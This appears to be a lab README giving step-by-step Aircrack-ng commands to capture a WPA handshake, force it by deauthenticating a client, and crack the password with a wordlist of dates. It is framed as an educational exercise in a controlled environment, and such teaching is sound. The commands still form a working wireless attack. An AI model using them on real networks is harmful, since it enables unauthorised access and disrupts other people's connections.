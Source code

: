 # WiFi Cracking Lab Instructions

## Prerequisites
- WiFi card supporting monitor mode
- Aircrack-ng suite
- Wordlist file generated by `date_wordlist_generator.ipynb` which includes all dates from 01.01.1930 to 31.12.2024 in the formats DDMMYYYY or MMDDYYYY. This file should be named `dates_1930_2024_wordlist.txt`.

## Steps

### 1. Environment Preparation
Stop interfering network processes:
```bash
sudo airmon-ng check kill
```

### 2. Enable Monitor Mode
Identify your wireless interface:
```bash
iwconfig
```
Start monitor mode:
```bash
sudo airmon-ng start <interface>
```
Check monitor mode:
```bash
iwconfig
```

### 3. Target Network Identification
List networks:
```bash
sudo airodump-ng <monitor_interface>
```
Note BSSID and channel of the target.

### 4. Capture Handshake
Capture handshake:
```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write hackMewifi <monitor_interface>
```

### 5. Deauthenticate Client (Optional)
Force handshake capture:
```bash
sudo aireplay-ng --deauth 5 -a <BSSID> -c <client_MAC> <monitor_interface>
```

### 6. Crack WiFi Password
Crack password:
```bash
aircrack-ng hackMewifi-01.cap -w <wordlist>
```

### 7. Cleanup
Restart network services:
```bash
sudo systemctl restart NetworkManager
```
Stop monitor mode:
```bash
sudo airmon-ng stop <monitor_interface>
```

## Conclusion
Follow these steps to crack a WiFi password using Aircrack-ng. This guide is for educational purposes in a controlled environment. The password is expected to be a date in the format of either DDMMYYYY or MMDDYYYY.
